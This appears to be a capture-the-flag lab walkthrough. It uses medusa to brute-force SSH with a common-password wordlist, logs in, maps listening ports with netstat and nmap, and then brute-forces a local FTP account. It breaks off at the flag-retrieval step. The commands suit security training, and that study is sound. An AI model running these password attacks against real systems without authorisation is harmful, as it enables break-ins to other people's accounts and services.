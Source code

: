 # Web Services

### What was the password for the ftpuser?

Getting the flag:

**Step 1** - Launch the attack with this password [wordlist](https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/2023-200_most_used_passwords.txt):

* {% code overflow="wrap" %}
  ```bash
  medusa -h <SERVER_IP> -n <SERVER_PORT> -u sshuser -P 2023-200_most_used_passwords.txt -M ssh -t 3
  ```
  {% endcode %}
*

    <figure><img src="../../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

**Step 2** - Login to the server with the password we just found:

* {% code overflow="wrap" %}
  ```bash
  ssh sshuser@<SERVER-IP> -p SERVER_PORT
  ```
  {% endcode %}
*

    <figure><img src="../../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

**Step 3** - Expand the Attack Surface:

* Execute the **netstat** command to listen open ports and listen service:
  *   ```bash
      netstat -tulpn | grep LISTEN
      ```


  *   And we found the port 21 open

      <figure><img src="../../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>
* Confirm the port 21 is open with nmap:
  * ```bash
    nmap 127.0.0.1
    ```
  *

      <figure><img src="../../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

**Step 4** - Targeting the FTP Server:

* Brute-force the authentication mechanism:
  * ```bash
    medusa -h 127.0.0.1 -u ftpuser -P 2020-200_most_used_passwords.txt -M ftp -t 5
    ```
    *



**Step 5** - Retrieve the flag:
